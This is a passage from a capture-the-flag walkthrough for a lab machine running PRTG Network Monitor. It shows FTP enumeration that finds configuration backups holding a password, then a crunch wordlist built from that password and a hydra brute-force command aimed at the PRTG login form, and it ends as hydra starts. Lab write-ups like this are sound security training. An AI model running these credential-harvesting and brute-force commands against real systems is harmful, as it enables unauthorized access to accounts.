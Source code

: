 ### **Enumerating FTP again**
The directory, C:\ProgramData\Paessler\PRTG Network Monitor\, is accessible and contains the  previous version and backup of the configuration file that we found earlier.

```
ftp> cd "\ProgramData\Paessler\PRTG Network Monitor"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
06-10-21  06:59PM       <DIR>          Configuration Auto-Backups
06-10-21  08:00PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
06-11-21  12:00AM       <DIR>          Logs (Web Server)
06-10-21  08:01PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
06-11-21  08:59AM              1725718 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
```
Fetching the two files and going through them, we find a password in the backup file.

![Credentials](./credentials.png "Credentials")

However, using these credentials we are still unable to login and receive invalid credential error message. The hydra scan was unable to identify the correct credentials till now, so I stopped it and tried to create a wordlist from the password to use with hydra.

### **Custom Wordlist**
Using crunch, I generated a wordlist with the last two digits changing for different years.
```
$ crunch 13 13 -t PrTg@dmin20%% -l PrTg@dmin20aa -o ./password.txt                                                                                                 1 ⨯
Crunch will now generate the following amount of data: 1400 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100 

crunch: 100% completed generating output
```
### **Bruteforce II**
```
$ hydra -T4 -l prtgadmin -P password.txt 10.10.10.152 http-post-form "/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again\!" 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-11 20:16:27
```